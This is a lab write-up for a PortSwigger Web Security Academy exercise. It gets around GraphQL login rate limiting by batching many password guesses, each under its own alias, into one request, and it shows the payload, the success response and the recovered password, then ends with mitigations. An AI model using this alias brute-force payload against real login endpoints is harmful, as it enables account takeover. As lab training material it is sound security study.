






# Lab Report: Bypassing GraphQL Brute Force Protections

## Platform
PortSwigger Web Security Academy

---

## Objective
To bypass GraphQL brute force protections by leveraging aliases to perform multiple login attempts in a single request and gain access to the user `carlos`.

---

## Overview
This lab demonstrates how GraphQL APIs can be vulnerable when rate limiting is applied per request instead of per operation. By using aliases, multiple login attempts can be sent in a single request, bypassing restrictions.

---

# Methodology

1. Intercept GraphQL login request  
2. Identify rate limiting  
3. Send to Repeater  
4. Craft alias-based payload  
5. Execute brute force in one request  
6. Identify valid credentials  
7. Login and solve lab  

---

# Exploitation Steps

## 🔹 Step 1: Lab Initial State

 Screenshot Placeholder  


---

## 🔹 Step 2: Intercept Login Request

```json
{
  "query": "mutation login($input: LoginInput!) { login(input: $input) { token success } }"
}
```

 Screenshot Placeholder  


---

## 🔹 Step 3: Rate Limit Observed

 Screenshot Placeholder  


---

## 🔹 Step 4: Send to Repeater

 Screenshot Placeholder  


---

## 🔹 Step 5: Alias Payload

```graphql
mutation {
  bruteforce0:login(input:{username:"carlos", password:"123456"}){success token}
  bruteforce1:login(input:{username:"carlos", password:"password"}){success token}
  bruteforce2:login(input:{username:"carlos", password:"12345678"}){success token}
}
```

 Screenshot Placeholder  


---

## 🔹 Step 6: Success Found

```json
"bruteforce56": {
  "success": true
}
```

Password: **112233**


---

## 🔹 Step 7: Login as Carlos

 Screenshot Placeholder  


---

## 🔹 Step 8: Lab Solved

 Screenshot Placeholder  


---

# Key Findings

- Rate limiting bypass via GraphQL aliases  
- Multiple attempts in single request  
- Weak API protection  

---

# Vulnerability

Improper Rate Limiting

---

# Impact

- Account compromise  
- Brute force bypass  

---

# Mitigation

- Rate limit per operation  
- Restrict alias usage  
- Add account lockout  

---

# Conclusion

GraphQL flexibility can introduce security risks if not properly controlled. Alias-based attacks can bypass protections like rate limiting.

---
